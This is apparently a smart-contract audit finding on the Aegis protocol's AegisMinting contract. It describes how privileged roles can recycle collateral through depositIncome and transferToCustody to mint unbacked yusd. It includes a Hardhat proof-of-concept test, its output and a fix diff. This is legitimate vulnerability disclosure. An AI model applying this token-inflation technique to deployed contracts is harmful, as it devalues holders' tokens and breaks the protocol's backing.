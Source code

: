 Innocent Ultraviolet Snake

High

# Possible devaluation of issued tokens due to logic flaw in `AegisMinting::transferToCustody` function

### Summary

It is the protocol's intension for total amount of underlying assets to always match or exceed the total user liabilities or issued tokens (see [here](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/main/README.md?plain=1#L42-L44)). However, a logic flaw in the `AegisMinting::transfeToCustody` function allows for amount of tokens issued to exceed amount of underlying assets.

### Root Cause

The `AegisMinting::depositIncome` function always checks for sufficient available assets before minting `yusd` tokens to the rewards contract (see [here](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/main/aegis-contracts/contracts/AegisMinting.sol#L407-L410)) and increments the `_custodyTransferrableAssetFunds` by `collateralAmount` see [here](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/main/aegis-contracts/contracts/AegisMinting.sol#L414)

However, the `AegisMinting::transferToCustody` function decrements the `_custodyTransferrableAssetFunds` by `amount` see [here](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/main/aegis-contracts/contracts/AegisMinting.sol#L453). This allows for issuing of more tokens without actual increment in underlying assets simply by sending collateral to the `AegisMinting` contract, issuing `yusd` tokens using the `AegisMinting::depositIncome` and transferring the underlying assets to the custodian wallet through the `AegisMinting::transferToCustody` function over and over again.

### Internal Pre-conditions

1. FUNDS_MANAGER_ROLE sends some `collateralAmount` to the `AegisMinting` contract
2. FUNDS_MANAGER_ROLE calls the `AegisMinting::depositIncome` function specifying `collateralAmount` and the equivalent amount of `yusd` tokens to mint, say `yusdAmount`
3. COLLATERAL_MANAGER_ROLE calls the `AegisMinting::transferToCustody` function, transferring all underlying assets (`collateralAmount`) to FUNDS_MANAGER_ROLE (for simplicity, we assume FUNDS_MANAGER_ROLE is also set as CustodianWallet)
4. FUNDS_MANAGER_ROLE sends the same `collateralAmount` to the `AegisMinting` contract again
5. FUNDS_MANAGER_ROLE calls the `AegisMinting::depositIncome` function specifying `collateralAmount` and the equivalent amount of `yusd` tokens to mint, i.e. `yusdAmount`

### External Pre-conditions

NA

### Attack Path

1. FUNDS_MANAGER_ROLE sends some `collateralAmount = 100` to the `AegisMinting` contract. Now, collateral balance of the `AegisMinting` contract is `100`
2. FUNDS_MANAGER_ROLE calls the `AegisMinting::depositIncome` function specifying `collateralAmount` and the equivalent amount of `yusd` tokens to mint, say `yusdAmount = 100`. Now, the collateral balance of the `AegisMinting` contract remains `100` and `_custodyTransferrableAssetFunds[collateral] = 100`. We have `100` collateral and `100` yusd tokens
3. COLLATERAL_MANAGER_ROLE calls the `AegisMinting::transferToCustody` function, transferring all underlying assets (`collateralAmount`) to FUNDS_MANAGER_ROLE (for simplicity, we assume FUNDS_MANAGER_ROLE is also set as CustodianWallet). This resets the collateral balance of the `AegisMinting` contract and `_custodyTransferrableAssetFunds[collateral]` to zero.
4. FUNDS_MANAGER_ROLE sends the same `collateralAmount` to the `AegisMinting` contract again setting collateral balance of the `AegisMinting` contract as `100`.
5. FUNDS_MANAGER_ROLE calls the `AegisMinting::depositIncome` function specifying `collateralAmount` and the equivalent amount of `yusd` tokens to mint, i.e. `yusdAmount = 100`. Now, the collateral balance of the `AegisMinting` contract remains `100` and `_custodyTransferrableAssetFunds[collateral] = 100`. We have `100` collateral and `100 + 100` yusd tokens


### Impact

With more issued tokens than underlying assets, the protocol invariant is broken. More so, users who wish to redeem their `yusd` token for some collateral may not be able to do so due to token devaluation since there are more issued tokens than should be.
This can grief the protocol as users will desert the protocol when such happens.

### PoC

Add this code to the `4_aegis_minting.spec.ts` file 

```javascript
describe('Spomaria_Poc--Broken-Invariant', () => {
      it.only('should mint yusd that exceeds collateral balance distorting yusd to collateral ratio', async() => {
        const [owner, sender] = await ethers.getSigners()
      
        const { aegisMintingContract, aegisMintingAddress, assetContract, assetAddress, aegisConfig, aegisRewardsContract, yusdContract } = await loadFixture(deployFixture)

        await aegisMintingContract.grantRole(FUNDS_MANAGER_ROLE, owner)
        await aegisMintingContract.grantRole(COLLATERAL_MANAGER_ROLE, owner)
        await aegisConfig.setOperator(owner, true)
        await aegisConfig['whitelistAddress(address,bool)'](sender, true)
        await aegisMintingContract.addCustodianAddress(owner.address)

        await assetContract.mint(owner.address, ethers.parseEther('100'))
        // await assetContract.connect(owner).approve(aegisMintingAddress, ethers.parseEther('1000'))

        const collateralAmount = ethers.parseEther('100')
        const yusdAmount = ethers.parseEther('99.999')

        const blockTime = await time.latest()
        const order = {
          orderType: OrderType.DEPOSIT_INCOME,
          userWallet: owner.address,
          collateralAsset: assetAddress,
          collateralAmount: collateralAmount,
          yusdAmount: yusdAmount,
          slippageAdjustedAmount: yusdAmount,
          expiry: blockTime + 10000,
          nonce: Date.now(),
          additionalData: encodeString(''),
        }
        const signature = await signOrder(order, aegisMintingAddress)

        const initialYUSDBalance = await yusdContract.balanceOf(aegisRewardsContract)
        console.log("Initial YUSD Balance for Rewards:", initialYUSDBalance)

        // FUNDS_MANAGER sends some collateral to the AegisMinting contract to allow them mint some yusd to the AegisRewards contract
        await assetContract.connect(owner).transfer(aegisMintingAddress, collateralAmount)


        const initialCollateralBalance = await assetContract.balanceOf(aegisMintingContract)
        console.log("Initial Collateral Balance in AegisMinting:", initialCollateralBalance)

        const initialCollateralSupply = await assetContract.totalSupply()
        console.log("Initial Collateral Total Supply:", initialCollateralSupply)

        // Mint yusd tokens to AegisRewards Contract without sending any collateral to the AegisMinting Contract
        await expect(aegisMintingContract.connect(owner).depositIncome(order, signature)).not.to.be.reverted

        // Assert collateral total supply is collateralAmount
        await expect(assetContract.totalSupply()).eventually.to.be.equal(initialCollateralBalance)

        // yusd was minted to the AegisRewards contract
        await expect(yusdContract.balanceOf(aegisRewardsContract)).eventually.to.be.greaterThan(0)

        const afterYUSDBalance1 = await yusdContract.balanceOf(aegisRewardsContract)
        console.log("YUSD Balance for Rewards After First Deposit:", afterYUSDBalance1)

        // Funds manager sends collateral to custody (themselves)
        await expect(aegisMintingContract.connect(owner).transferToCustody(owner.address, assetAddress, collateralAmount)).not.to.be.reverted

        // FUNDS_MANAGER sends thae collateral back to the AegisMinting contract to allow them mint some yusd to the AegisRewards contract

        await assetContract.connect(owner).transfer(aegisMintingAddress, collateralAmount)


        const blockTime2 = await time.latest()
        const order2 = {
          orderType: OrderType.DEPOSIT_INCOME,
          userWallet: owner.address,
          collateralAsset: assetAddress,
          collateralAmount: collateralAmount,
          yusdAmount: yusdAmount,
          slippageAdjustedAmount: yusdAmount,
          expiry: blockTime2 + 10000,
          nonce: Date.now(),
          additionalData: encodeString(''),
        }
        const signature2 = await signOrder(order2, aegisMintingAddress)

        // Mint yusd tokens to AegisRewards Contract without adding any collateral to the total supply
        await expect(aegisMintingContract.connect(owner).depositIncome(order2, signature2)).not.to.be.reverted

        // Assert collateral total supply remains the same
        await expect(assetContract.totalSupply()).eventually.to.be.equal(initialCollateralBalance)

        // Assert that yusd was minted to the AegisRewards contract again while collateral total supply remains the same

        const afterYUSDBalance2 = await yusdContract.balanceOf(aegisRewardsContract)
        console.log("YUSD Balance for Rewards After Second Deposit:", afterYUSDBalance2)

        const currentCollateralSupply = await assetContract.totalSupply()
        console.log("Current Collateral Total Supply:", currentCollateralSupply)

      })
    })
```
Next run `npx hardhat test`
Test passes with the following output

```javascript
  AegisMinting
    Spomaria_Poc--Broken-Invariant
Initial YUSD Balance for Rewards: 0n
Initial Collateral Balance in AegisMinting: 100000000000000000000n
Initial Collateral Total Supply: 100000000000000000000n
YUSD Balance for Rewards After First Deposit: 94999050000000000000n
YUSD Balance for Rewards After Second Deposit: 189998100000000000000n
Current Collateral Total Supply: 100000000000000000000n
      ✔ should mint yusd that exceeds collateral balance distorting yusd to collateral ratio (1294ms)


  1 passing (1s)
```

### Mitigation

Consider modifying the `AegisMinting::transferToCustody` to not decrement the `_custodyTransferrableAssetFunds` variable. This way, more `yusd` tokens can only be issued if more actual underlying assets are added to the protocol

```diff
  function transferToCustody(
    address wallet,
    address asset,
    uint256 amount
  ) external nonReentrant onlyRole(COLLATERAL_MANAGER_ROLE) onlySupportedAsset(asset) onlyCustodianAddress(wallet) {
    uint256 availableBalance = _custodyAvailableAssetBalance(asset);
    if (availableBalance < amount) {
      revert NotEnoughFunds();
    }


-   _custodyTransferrableAssetFunds[asset] -= amount;
    IERC20(asset).safeTransfer(wallet, amount);


    emit CustodyTransfer(wallet, asset, amount);
  }
```